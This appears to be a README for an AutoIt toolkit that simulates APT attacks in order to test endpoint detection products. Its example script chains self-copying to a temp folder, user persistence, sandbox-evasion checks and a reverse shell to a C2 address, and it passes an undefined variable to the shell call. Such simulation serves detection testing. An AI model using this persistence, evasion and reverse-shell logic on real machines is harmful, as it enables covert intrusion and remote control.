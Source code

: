 # EDR Tester

## Introduction

The EDR Tester is a collection of AutoIT libraries for APT attacks simulation.


## Example

* This is an example


**APT01**
> **
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "test"
$c2server = "192.168.0.1"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($RemoteIp)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
**



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

